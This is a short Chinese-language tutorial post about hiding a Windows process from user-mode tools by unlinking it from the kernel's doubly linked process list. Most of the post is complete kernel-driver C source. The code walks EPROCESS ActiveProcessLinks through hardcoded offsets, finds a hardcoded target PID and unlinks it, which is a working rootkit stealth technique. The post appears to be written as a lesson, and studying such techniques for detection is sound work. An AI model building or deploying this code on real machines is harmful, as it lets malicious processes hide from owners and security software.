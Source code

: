 今天介绍一种比较简单的隐藏进程的方法，其实只能骗骗3环下的检测

原理
---

我们知道进程在0环中是靠双向链表链接的，我们打印进程的时候靠的是遍历双向链表，如果我们进行断链操作，就可以实现3环下的进程隐藏

代码
---

        #include<ntifs.h>
        VOID DriverUnload(PDRIVER_OBJECT pDriverObject) {
          DbgPrint("Unload Driver Success! ");
        }

        NTSTATUS HideProcess(ULONG ulPid) {
          DWORD_PTR pEprocess = NULL;
          ULONG ulProcessID = 0;
          //获取当前进程
          pEprocess = (DWORD_PTR)PsGetCurrentProcess();
          //获取双向链表
          PLIST_ENTRY pActiveProcessLinks = (PLIST_ENTRY*)(pEprocess + 0xb8);
          //指向下一个链表
          PLIST_ENTRY pNextLinks = pActiveProcessLinks->Flink;
          while (pNextLinks->Flink!= pActiveProcessLinks->Flink)
          {
          //回到当前进程的结构头部
            pEprocess = (DWORD_PTR)pNextLinks - 0xb8;
            //获取uid
            ulProcessID = *((ULONG*)(pEprocess + 0xb4));
            //判断进程id是否与参数进程id相等
            if (ulProcessID==ulPid)
            {
            //进行断链操作
              pNextLinks->Blink->Flink = pNextLinks->Flink;
              pNextLinks->Flink->Blink = pNextLinks->Blink;
              DbgPrint("Success!");
              return STATUS_SUCCESS;
            }
            pNextLinks = pNextLinks->Flink;
          }
          DbgPrint("Failed!");
          return STATUS_SUCCESS;

        }

        NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegPath) {
          DbgPrint("Load Driver Success!");
          pDriverObject->DriverUnload = DriverUnload;
          HideProcess(2880);
          return STATUS_SUCCESS;
          }
          
![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20211219224459.png)

![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20211219224539.png)
